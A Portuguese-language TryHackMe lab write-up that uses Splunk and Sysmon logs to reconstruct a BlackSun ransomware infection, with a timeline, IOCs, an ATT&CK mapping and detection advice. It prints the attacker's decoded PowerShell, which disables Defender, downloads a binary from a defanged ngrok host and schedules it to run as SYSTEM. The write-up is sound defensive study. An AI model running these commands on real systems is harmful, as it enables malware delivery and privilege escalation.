






# TryHackMe – PS Eclipse (Writeup)

**Room:** https://tryhackme.com/room/posheclipse
**Categoria:** SIEM / Threat Hunting / Análise de ransomware (Splunk + Sysmon)
**Cenário:** Um analista do SOC recebe um alerta sobre atividade suspeita em uma estação Windows. Usando o **Splunk** com logs do **Sysmon**, o objetivo é reconstruir como um binário malicioso chegou ao endpoint, como ganhou privilégios elevados e como um script PowerShell cifrou os arquivos do usuário (ransomware **BlackSun**).

**Ambiente:** Splunk Enterprise 8.2.4 (`index=*`), Sysmon, CyberChef e VirusTotal
**Host investigado:** `DESKTOP-TBV8NEF` (usuário afetado: `keegan`)
**Eventos Sysmon usados:** `EventCode=1` (criação de processo), `EventCode=11` (criação de arquivo) e `EventCode=22` (consulta DNS)

---

## Resumo das respostas

| # | Pergunta | Resposta |
|---|----------|----------|
| 1 | Nome do binário suspeito | `OUTSTANDING_GUTTER.exe` |
| 2 | Endereço de onde o binário foi baixado (com `http://` e defanged) | `hxxp[://]886e-181-215-214-32[.]ngrok[.]io` |
| 3 | Executável do Windows usado para baixar o binário (caminho completo) | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` |
| 4 | Comando para configurar o binário com privilégios elevados | `SCHTASKS /Create /TN "OUTSTANDING_GUTTER.exe" /TR "C:\Windows\Temp\COUTSTANDING_GUTTER.exe" /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU "SYSTEM" /f` |
| 5 | Permissão do binário e comando para executá-lo (Usuário;CommandLine) | `NT AUTHORITY\SYSTEM;SCHTASKS /Run /TN "OUTSTANDING_GUTTER.exe"` |
| 6 | Servidor remoto ao qual o binário se conectou (com `http://` e defanged) | `hxxp[://]9030-181-215-214-32[.]ngrok[.]io` |
| 7 | Script PowerShell baixado para o mesmo local do binário | `script.ps1` |
| 8 | Nome real do script malicioso | `BlackSun.ps1` |
| 9 | Caminho completo da nota de resgate | `C:\Users\keegan\Downloads\vasg6b0wmw029hd\BlackSun_README.txt` |
| 10 | Caminho completo da imagem de papel de parede | `C:\Users\Public\Pictures\blacksun.jpg` |

---

## Tasks 2, 3, 4 e 5 – Comando codificado do PowerShell

**Evidências:** `Adrress_of_Binary_Encoded.png`, `Windows_Executable_Used_to_Download_Binary.png`, `Address_of_Binary_Decode.png`, `Command_Used_for_Privesc.png`, `Command_Used_by_NT_Permission.png`

### Como o comando foi encontrado

1. Listei todos os processos `powershell.exe` / `pwsh.exe` pelo Sysmon (Event ID 1):

```spl
index=* EventCode=1
(Image="*powershell.exe" OR Image="*pwsh.exe")
| table _time host ParentImage Image CommandLine
| sort _time
```

2. O resultado são **5 eventos** em `DESKTOP-TBV8NEF`:

| Horário | Processo pai | Linha de comando |
|---------|--------------|------------------|
| 13:29:47 | `C:\Windows\System32\cmd.exe` | `powershell.exe -exec bypass -enc UwBlAHQALQBN...` |
| 13:31:59 | `C:\Windows\System32\cmd.exe` | `powershell.exe -exec bypass -enc UwBlAHQALQBN...` |
| 13:33:28 | `C:\Windows\System32\cmd.exe` | `powershell.exe -exec bypass -enc UwBlAHQALQBN...` |
| 13:36:46 | **`C:\Windows\Temp\OUTSTANDING_GUTTER.exe`** | `powershell.exe -NoExit -Command [Console]::OutputEncoding=[Text.UTF8Encoding]::UTF8 ...` |
| 13:39:26 | `powershell.exe` | `"...\powershell.exe" -Version 5.1 -s -NoLogo -NoProfile` |

3. As três primeiras execuções usam `-exec bypass -enc`, ou seja, **ignoram a política de execução** e rodam um script em **Base64**. O mesmo valor se repete nas três execuções.

### Decodificação no CyberChef

Receita usada:

```
From Base64  (alfabeto padrão, "Remove non-alphabet chars")
→ Decode text  (UTF-16LE, 1200)
→ Defang URL  (Escape dots, Escape http, Escape ://)
```

Saída (com a URL em formato defanged pela própria receita):

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true;
wget hxxp[://]886e-181-215-214-32[.]ngrok[.]io/OUTSTANDING_GUTTER[.]exe -OutFile C:\Windows\Temp\OUTSTANDING_GUTTER.exe;
SCHTASKS /Create /TN "OUTSTANDING_GUTTER.exe" /TR "C:\Windows\Temp\COUTSTANDING_GUTTER.exe" /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU "SYSTEM" /f;
SCHTASKS /Run /TN "OUTSTANDING_GUTTER.exe"
```

### O que o script faz

| Etapa | Comando | Efeito |
|-------|---------|--------|
| 1 | `Set-MpPreference -DisableRealtimeMonitoring $true` | **Desativa a proteção em tempo real** do Windows Defender |
| 2 | `wget <URL> -OutFile C:\Windows\Temp\OUTSTANDING_GUTTER.exe` | **Baixa o binário** de um túnel **ngrok** (Task 2) |
| 3 | `SCHTASKS /Create ... /RU "SYSTEM" ...` | Cria uma **tarefa agendada** que executa o binário como `SYSTEM` (Task 4) |
| 4 | `SCHTASKS /Run /TN "OUTSTANDING_GUTTER.exe"` | **Dispara a tarefa** imediatamente (Task 5) |

### Respostas

- **Task 2, endereço de download:** o host destacado na decodificação é `hxxp[://]886e-181-215-214-32[.]ngrok[.]io`. A URL completa do binário é `hxxp[://]886e-181-215-214-32[.]ngrok[.]io/OUTSTANDING_GUTTER[.]exe`.
- **Task 3, executável usado no download:** o campo `Image` dos eventos de criação de processo é `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`, que executou o `wget` (alias de `Invoke-WebRequest`).
- **Task 4, comando de elevação:** é o `SCHTASKS /Create`. A tarefa dispara a cada evento do log *Application* com **ID 777** (`/SC ONEVENT /EC Application /MO *[System/EventID=777]`) e roda como **`SYSTEM`** (`/RU "SYSTEM"`).
- **Task 5, permissão e execução:** a conta é **`NT AUTHORITY\SYSTEM`** (a conta de maior privilégio local) e o comando de execução é `SCHTASKS /Run /TN "OUTSTANDING_GUTTER.exe"`.

> No comando de criação da tarefa, o caminho aparece literalmente como `C:\Windows\Temp\COUTSTANDING_GUTTER.exe`, com um **"C" extra** antes do nome. Isso está no próprio script do atacante, e por isso foi mantido na resposta.
> O texto `NT AUTHORITY\SYSTEM` vem do parâmetro `/RU "SYSTEM"`; o campo `User` do Sysmon não aparece nos prints.

---

## Task 1 – Nome do binário suspeito

### Metodologia

1. Procurei no Splunk todos os arquivos `.exe` criados no host:

```spl
index=*
| search TargetFilename="*.exe"
| table _time Computer Image TargetFilename
| sort _time
```

2. Foram **91 eventos**. Entre os arquivos legítimos (atualizações do Windows Defender, como `mpam-*.exe`, `MpSigStub.exe` e `AM_Delta_Patch_1.363.2043.0.exe`), se destaca o `OUTSTANDING_GUTTER.exe`:

| Horário | Processo (`Image`) | `TargetFilename` |
|---------|--------------------|------------------|
| 13:29:53 | `powershell.exe` | `C:\Windows\Temp\OUTSTANDING_GUTTER.exe` |
| 13:30:14 | `svchost.exe` | `C:\Windows\System32\Tasks\OUTSTANDING_GUTTER.exe` |
| 13:30:47 | `MsMpEng.exe` (Defender) | `C:\Windows\Temp\OUTSTANDING_GUTTER.exe` |
| 13:32:05 | `powershell.exe` | `C:\Windows\Temp\OUTSTANDING_GUTTER.exe` |
| 13:33:23 | `svchost.exe` | `C:\Windows\System32\Tasks\OUTSTANDING_GUTTER.exe` |
| 13:33:31 | `powershell.exe` (2 eventos) | `C:\Windows\Temp\OUTSTANDING_GUTTER.exe` |
| 13:33:50 | `svchost.exe` | `C:\Windows\System32\Tasks\OUTSTANDING_GUTTER.exe` |

3. Os eventos mostram duas coisas: o PowerShell grava o binário em `C:\Windows\Temp`, e o `svchost.exe` (serviço do Agendador de Tarefas) grava o arquivo de tarefa em `C:\Windows\System32\Tasks`. Isso confirma a tarefa agendada da Task 4.



**Resposta:** `OUTSTANDING_GUTTER.exe`

---

## Task 6 – Servidor remoto contatado pelo binário

### Metodologia

1. Pesquisei as consultas DNS feitas pelo processo do binário:

```spl
index=* Image="*OUTSTANDING_GUTTER.exe"
| table QueryName
```

2. A busca retorna **298 eventos**, quase todos com o mesmo valor:

```
9030-181-215-214-32.ngrok.io
```

3. Esse é um **segundo túnel ngrok**, diferente do usado para o download (`886e-181-215-214-32.ngrok.io`). Ambos têm o fragmento `181-215-214-32` no nome. A quantidade de consultas indica comunicação repetida (comando e controle).
4. Com o *defang* e o prefixo `http://`: `hxxp[://]9030-181-215-214-32[.]ngrok[.]io`.



**Resposta:** `hxxp[://]9030-181-215-214-32[.]ngrok[.]io`

---

## Task 7 – Script PowerShell baixado

### Metodologia

1. Procurei arquivos `.ps1` criados em `C:\Windows\Temp`:

```spl
index=* EventCode=11
| search TargetFilename="*\\Windows\\Temp\\*.ps1"
| table _time Computer Image TargetFilename
| sort _time
```

2. Foram **14 eventos**. A maioria é ruído do sistema:
   - `SDIAG_...\*.ps1`, criados pelo `taskhostw.exe` em 13/05 (diagnósticos do Windows).
   - `__PSScriptPolicyTest_*.ps1`, arquivos temporários que o próprio PowerShell cria para testar a política de execução.
3. Um arquivo foge do padrão e foi criado pelo `powershell.exe` em **16/05/2022 às 13:37:58**:

```
C:\Windows\Temp\script.ps1
```

Ele está na **mesma pasta** do `OUTSTANDING_GUTTER.exe` (`C:\Windows\Temp`), exatamente como a pergunta descreve.



**Resposta:** `script.ps1`

---

## Task 8 – Nome real do script malicioso

### Metodologia

1. Com o hash do `script.ps1`, consultei o **VirusTotal**. A página de detalhes do hash `e5429f2e44990b3d4e249c566fbf19741e671c0e40b809f87248d9ec9114bef9` mostra:

| Campo | Valor |
|-------|-------|
| Tamanho | 56,62 KB (57.979 bytes) |
| Primeiro envio | 2021-09-20 11:16:51 UTC |
| **Names** | `e5429f2e...bef9.ps1`, **`BlackSun.ps1`**, `523.mal` |

2. Na seção **PowerShell Info** do VirusTotal aparecem cmdlets como `add-type`, `clear-eventlog`, `compress-archive`, `convertto-securestring`, `copy-item`, `get-ciminstance`, e chamadas .NET como `System.IO.File`, `System.Net.NetworkInformation.Ping` e `Reflection.Emit.OpCodes`.
3. O nome **`BlackSun.ps1`** corresponde à família de ransomware **BlackSun**, que é escrita em PowerShell.



**Resposta:** `BlackSun.ps1`

> Os prints não mostram de onde saiu o hash consultado. O caminho esperado é o hash do `script.ps1` nos eventos do Sysmon.

---

## Task 9 – Nota de resgate

### Metodologia

1. Procurei arquivos criados com o nome da família:

```spl
index=* EventCode=11
| where like(TargetFilename, "%BlackSun%")
| table _time Computer Image TargetFilename
| sort _time
```

2. Foram **8 eventos**, todos de **16/05/2022**, que mostram a evolução do ransomware:

| Horário | Processo | Arquivo |
|---------|----------|---------|
| 13:38:55 | `powershell.exe` | `C:\Windows\Temp\BlackSun.log` |
| 13:39:09 | `cmd.exe` | `C:\Windows\Temp\BlackSun_TMPALL` |
| 13:39:09 | `powershell.exe` | `C:\Windows\Temp\BlackSun_DRIVE_LOCAL_C` |
| 13:39:22 | `powershell.exe` | `C:\Windows\Temp\BlackSun_FILESON_LOCAL_C` |
| 13:39:29 | `powershell.exe` | `C:\Windows\Temp\BlackSunWorker.log` |
| 13:39:30 | `powershell.exe` | `C:\Users\keegan\Downloads\vasg6b0wmw029hd\enc-toolset.7z.BlackSun` |
| 13:39:30 | `powershell.exe` | **`C:\Users\keegan\Downloads\vasg6b0wmw029hd\BlackSun_README.txt`** |
| 13:39:30 | `powershell.exe` | `C:\Users\keegan\Downloads\vasg6b0wmw029hd\enc-files.7z.BlackSun` |

3. Os arquivos `enc-toolset.7z.BlackSun` e `enc-files.7z.BlackSun` são os dados do usuário `keegan` já cifrados, com a extensão `.BlackSun`. O `BlackSun_README.txt` ao lado deles é a **nota de resgate**.



**Resposta:** `C:\Users\keegan\Downloads\vasg6b0wmw029hd\BlackSun_README.txt`

---

## Task 10 – Imagem de papel de parede

### Metodologia

1. Procurei imagens criadas em disco (eventos de arquivo):

```spl
index=* EventCode=11
| where match(lower(TargetFilename), "\.(jpg|jpeg|png|bmp)$")
| table _time Computer Image TargetFilename
| sort _time
```

2. Há **1 único evento**, de **16/05/2022 às 13:39:31**, **um segundo depois** da nota de resgate:

| Horário | Processo | Arquivo |
|---------|----------|---------|
| 13:39:31 | `powershell.exe` | `C:\Users\Public\Pictures\blacksun.jpg` |



**Resposta:** `C:\Users\Public\Pictures\blacksun.jpg`

---

## Linha do tempo

Todos os horários são de **16/05/2022**, no host `DESKTOP-TBV8NEF`.

| Horário | Evento |
|---------|--------|
| 13:29:47 | `cmd.exe` inicia `powershell.exe -exec bypass -enc ...` (comando codificado) |
| 13:29:53 | `powershell.exe` grava `C:\Windows\Temp\OUTSTANDING_GUTTER.exe` (download via ngrok) |
| 13:30:14 | `svchost.exe` cria `C:\Windows\System32\Tasks\OUTSTANDING_GUTTER.exe` (tarefa agendada, `SYSTEM`) |
| 13:30:47 | O Defender (`MsMpEng.exe`) acessa o binário em `C:\Windows\Temp` |
| 13:31:59, 13:33:28 | O mesmo comando codificado é executado de novo, com novas escritas do binário e da tarefa |
| 13:36:46 | `OUTSTANDING_GUTTER.exe` inicia `powershell.exe -NoExit -Command ...` |
| 13:37:58 | `powershell.exe` cria `C:\Windows\Temp\script.ps1` (**BlackSun.ps1**) |
| 13:38:55 | Início do ransomware: `BlackSun.log` |
| 13:39:09–29 | Arquivos de trabalho do ransomware em `C:\Windows\Temp\` |
| 13:39:30 | Arquivos do usuário cifrados (`*.7z.BlackSun`) e nota `BlackSun_README.txt` |
| 13:39:31 | Papel de parede `blacksun.jpg` em `C:\Users\Public\Pictures\` |

```
cmd.exe
  └─ powershell.exe -exec bypass -enc <Base64>
        ├─ Set-MpPreference -DisableRealtimeMonitoring $true
        ├─ wget hxxp[://]886e-181-215-214-32[.]ngrok[.]io/OUTSTANDING_GUTTER[.]exe → C:\Windows\Temp\
        ├─ SCHTASKS /Create ... /RU "SYSTEM"
        └─ SCHTASKS /Run /TN "OUTSTANDING_GUTTER.exe"
              └─ OUTSTANDING_GUTTER.exe (SYSTEM)
                    ├─ DNS: 9030-181-215-214-32[.]ngrok[.]io (C2, 298 consultas)
                    └─ powershell.exe → script.ps1 (BlackSun.ps1)
                          ├─ cifra arquivos → *.7z.BlackSun
                          ├─ BlackSun_README.txt (nota de resgate)
                          └─ blacksun.jpg (papel de parede)
```

---

## Mapeamento MITRE ATT&CK

| Tática | Técnica | ID | Evidência |
|--------|---------|----|-----------|
| Execução | Command and Scripting Interpreter: PowerShell | T1059.001 | `powershell.exe -exec bypass -enc` |
| Defense Evasion | Obfuscated Files or Information: Command Obfuscation | T1027.010 | Comando em Base64 (`-enc`) |
| Defense Evasion | Impair Defenses: Disable or Modify Tools | T1562.001 | `Set-MpPreference -DisableRealtimeMonitoring $true` |
| Command and Control | Ingress Tool Transfer | T1105 | `wget` do binário a partir do ngrok |
| Persistence / Privilege Escalation | Scheduled Task/Job: Scheduled Task | T1053.005 | `SCHTASKS /Create ... /RU "SYSTEM"` |
| Command and Control | Protocol Tunneling | T1572 | Túneis ngrok para download e C2 |
| Impact | Data Encrypted for Impact | T1486 | Arquivos `*.7z.BlackSun` e nota de resgate |
| Impact | Defacement: Internal Defacement | T1491.001 | Troca de papel de parede (`blacksun.jpg`) |

> O mapeamento é uma inferência a partir das evidências dos prints.

---

## Indicadores de comprometimento (IOCs)

| Tipo | Valor |
|------|-------|
| Host / usuário | `DESKTOP-TBV8NEF` / `keegan` |
| Binário | `C:\Windows\Temp\OUTSTANDING_GUTTER.exe` |
| Tarefa agendada | `OUTSTANDING_GUTTER.exe` (`C:\Windows\System32\Tasks\`), executa como `SYSTEM` |
| Download | `hxxp[://]886e-181-215-214-32[.]ngrok[.]io/OUTSTANDING_GUTTER[.]exe` |
| C2 (DNS) | `9030-181-215-214-32[.]ngrok[.]io` |
| Script | `C:\Windows\Temp\script.ps1` (nome real: `BlackSun.ps1`) |
| SHA-256 do script | `e5429f2e44990b3d4e249c566fbf19741e671c0e40b809f87248d9ec9114bef9` |
| Nota de resgate | `C:\Users\keegan\Downloads\vasg6b0wmw029hd\BlackSun_README.txt` |
| Arquivos cifrados | `enc-toolset.7z.BlackSun`, `enc-files.7z.BlackSun` |
| Papel de parede | `C:\Users\Public\Pictures\blacksun.jpg` |
| Arquivos de trabalho | `BlackSun.log`, `BlackSunWorker.log`, `BlackSun_TMPALL`, `BlackSun_DRIVE_LOCAL_C`, `BlackSun_FILESON_LOCAL_C` |

---

## Consultas SPL úteis

```spl
# Processos PowerShell
index=* EventCode=1 (Image="*powershell.exe" OR Image="*pwsh.exe")
| table _time host ParentImage Image CommandLine | sort _time

# Executáveis criados
index=* | search TargetFilename="*.exe" | table _time Computer Image TargetFilename | sort _time

# Scripts .ps1 em C:\Windows\Temp
index=* EventCode=11 | search TargetFilename="*\\Windows\\Temp\\*.ps1"
| table _time Computer Image TargetFilename | sort _time

# Consultas DNS do binário
index=* Image="*OUTSTANDING_GUTTER.exe" | table QueryName

# Artefatos do ransomware
index=* EventCode=11 | where like(TargetFilename, "%BlackSun%")
| table _time Computer Image TargetFilename | sort _time
```

---

## Recomendações de detecção e resposta

- Alertar para `powershell.exe` com `-exec bypass` e `-enc` iniciado por `cmd.exe`.
- Alertar para `Set-MpPreference -DisableRealtimeMonitoring $true` e para alterações nas configurações do Defender.
- Monitorar `schtasks /create` com `/RU "SYSTEM"` e gatilhos por evento (`/SC ONEVENT`).
- Bloquear ou monitorar domínios de túnel (`*.ngrok.io`) e consultas DNS repetidas para eles.
- Procurar executáveis novos em `C:\Windows\Temp` e arquivos com extensão `.BlackSun`.
- Resposta: isolar `DESKTOP-TBV8NEF`, remover a tarefa agendada e o binário, restaurar os arquivos de `keegan` a partir de backup e redefinir as credenciais.

---

## Ferramentas utilizadas

- Splunk Enterprise 8.2.4 (SPL) sobre logs do Sysmon
- CyberChef (From Base64, Decode text UTF-16LE, Defang URL)
- VirusTotal para os nomes e metadados do script

## Lições aprendidas

- O parâmetro `-enc` do PowerShell usa Base64 em **UTF-16LE**; decodificar o comando revela todo o ataque em uma tela.
- Eventos de criação de arquivo (Event ID 11) mostram a ordem de um ataque: binário, tarefa agendada, script, arquivos do ransomware e nota de resgate.
- Os ruídos do sistema (Defender, `SDIAG`, `__PSScriptPolicyTest`) são comuns; o que importa é o arquivo que destoa do padrão.
- Túneis de serviços legítimos (ngrok) escondem o servidor real do atacante.
- Faça o *defang* de URLs e domínios ao documentar indicadores.
